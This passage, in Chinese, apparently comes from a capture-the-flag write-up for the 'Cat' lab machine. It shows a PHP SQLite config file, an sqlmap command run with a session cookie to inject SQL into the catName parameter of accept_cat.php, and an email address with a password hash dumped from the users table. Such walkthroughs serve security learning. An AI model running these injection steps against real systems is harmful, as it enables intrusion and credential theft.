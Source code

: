 在**config.php**中发现了数据库是**SQLlite**

```
<?php
// Database configuration
$db_file = '/databases/cat.db';

// Connect to the database
try {
    $pdo = new PDO("sqlite:$db_file");
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Error: " . $e->getMessage());
}
?>
```

因此多半是**SQL**盲注的类型

```
[root@kali] /home/kali/Cat/catgit (master) 
❯ sqlmap -u "http://cat.htb/accept_cat.php" --cookie="PHPSESSID=918f1nvps72fc7rvk5umu13jch" --data="catId=1&catName=123" -p catName --dbms=SQLite --level=5 
```

![](./images/image-5.png)

得到四个表

![](./images/image-6.png)

在**users**表中拿到了

```
rosamendoza485@gmail.com      ac369922d560f17d6eeb8b2c7dec498c
```
